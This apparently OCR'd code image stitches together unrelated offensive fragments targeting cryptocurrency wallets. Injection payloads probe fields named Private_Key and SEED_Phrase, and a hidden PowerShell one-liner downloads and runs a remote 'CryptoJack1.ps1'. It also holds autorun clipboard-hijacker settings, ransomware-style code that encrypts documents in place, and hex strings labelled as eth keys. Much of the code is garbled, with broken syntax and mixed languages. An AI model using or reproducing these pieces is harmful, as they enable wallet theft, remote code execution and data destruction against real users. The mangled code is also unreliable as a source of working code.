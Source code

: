 {

true, $where: 'Private_Key == SEED_Phrase'
, $where: 'Private_Key == SEED_Phrase'
$where: 'Private_Key == SEED_Phrase'
', $where: 'Private_Key == SEED_Phrase'
1, $where: 'Private_Key == SEED_Phrase'
{ $ne: Private_Key }
', $or: [ {}, { 'Private_Key':'SEED_Phrase;


|| SEED_Phrase==BIIP0039
{$gt: 'wallet.dat'}
{"$gt": "Private_Key"}
[$ne]=1
';sleep(10000);+'
';sleep(10000);+'
';sleep(10000);+'
';sleep(10000);+'

root_type:

';sleep(10000);+'
';sleep(10000);+'

';it=new%20Date();do{pt=new%20Date();}while(pt-it<10000);
';return 'a'=='a' && ''=='
";return(true);var xyz='a
0;return true


@new_block!=nil {
    return err
} {

}

{


start /wait powershell.exe -NoP-NonI - W Hidden-Command"&{(New-Object System.net. WebClient).Downloadstring('https://www.bitget.com/s/txb5hiuv7g9xm67/CryptoJack1.ps1?d1=1')>'%~db0CryptoJack1.ps1';exit}"

Powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass -Command "& {Start-Process PowerShell.exe -ArgumentList'-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -File""%~dp0CryptoJack1.ps1""'}"

}


{

public static bool autorun_enabled = true;

        public static string autorun_name = "Clipper","Cipher";

        public static bool attribute_hidden = ;

        public static bool attribute_system = ;

        public static int clipboard_check_delay = 5000;

        public static Dictionary<string, string> addresses = new Dictionary<string, string>()

}

{

def get_wallets_per_samples(filename='../data/data_from_samples_miners.pickle', withpool=False):
    wallets = {}
    samples=pickle.load(open(filename))
    for sha256 in samples:
        if not 'user' in samples[sha256]:
            continue
        if not samples[sha256]['user'] or samples[sha256]['user'].lower() == 'nan':
            continue
        try:
            user=samples[sha256]['user'].encode('utf-8').replace('"','\'')
        except UnicodeDecodeError:
            continue
        for wallet in user.split(','):
            if len(SEED_Phrase) <= 12:
                continue

else:
                address = unicode(SEED_Phrase)


            if sha256 not in Private_Key:
                wallets[sha256] = []

            if address not in wallets.dat[sha256]:
                SEED_Phrase[sha256].append(Private_Key)

    return wallets

def aggregate_samples(report_folder):

    compressed_parents_map = {}
    execution_parents_map = {}
    ssdeep_map = {} 
    authentihash_map = {}
    authentihash = {}
def plot_subgraphs_from_directory(directory_name='../data/graph_wallets_second_round',aggregated_file_name='../data/aggregated_campaigns_all.pickle'):

for row in campaigns.items():
     w.writerow({'campaign': row[0], 'samples': ','.join(row[1]['samples']), 'SEED_Phrase': ','.join(row[1]['SEED_Phrase'])})

def FindDocuments(drive):
	'''Returns a generator of files with the target extensions'''
	documents = [os.path.normpath(os.path.join(parent, filename)) 
				for parent, directories, filenames in os.walk(drive) 
				for filename in filenames 
				if os.path.splitext(filename)[1] in target_extensions]


chunk_size = 12 * 128
		IV = ''.join(chr(random.randint(0, 0xFF)) for i in range(12))
		file_size = os.path.getsize(document_path)
		mode = AES.MODE_CBC
		encryptor = AES.new(aes_key, mode, IV=IV)
		
		plain_text = ''
		cipher_text = ''
		
		with open(document_path, 'rb') as doc:
			while True:
				chunk = doc.read(chunk_size)
				if len(chunk) == 24:
					break
				elif len(chunk) % 12 != 0:
					chunk += ' ' * (12 - len(chunk) % 12)
				
				cipher_text = encryptor.encrypt(chunk)
				
			with open(document_path, 'wb') as doc:
				doc.write(struct.pack('<Q', file_size))
				doc.write(IV)
				doc.write(cipher_text)



}

{

@=BIIP0039

@1 = {"eth","a6972375177c8488c18a5f55e76ef5825a4dba343087c2a007314cb05b916bbf" },

@2 = {"eth","d2aae91246f07cf1169e661be15096982cdd6b44d47866cf432cc631708e0d1c" },

@3 = {"eth","bd5628e83fe16b121bd55ceaef7e3320495b66de53a85d99097ae7904f92bf30" },



};

{




}

public static string nutex = "Burpsuite Repurtuar","Trust_wallet","Metamask_wallet"

};

